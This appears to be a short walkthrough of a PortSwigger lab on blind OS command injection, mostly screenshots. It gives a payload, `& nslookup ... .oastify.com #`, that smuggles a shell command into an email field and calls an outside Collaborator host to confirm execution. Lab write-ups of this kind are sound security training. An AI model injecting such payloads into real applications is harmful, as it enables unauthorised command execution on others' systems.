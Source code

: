 ## Lab Description: Blind OS command injection with out-of-band interaction

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ebaa0fef-61b9-445a-91dc-c84a41b7c992)

## Solution:

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/028e0ff1-6323-4f8e-ac1c-17f2e6d6d518)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/9ed375c7-64af-4454-905f-22f0481bd921)


Copy the collaborator server link - `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #`

Paste the payload `& nslookup v51yzmjhb2rq05hymmqsvpa9g0mraiy7.oastify.com #` (URL - encode ) in the email parameter .

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c1d00a38-30bf-42d3-88a7-e4fed1ae9e10)

After URL Encoding 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8fbf5538-24fb-4d13-af78-2859d0ba1732)

Now click SEND button, click POLL NOW button in burp collaborator` ,

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/15dca145-f198-47f9-9118-cc3e22734f02)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f1913cba-b8eb-4b7c-9537-067036f2b370)

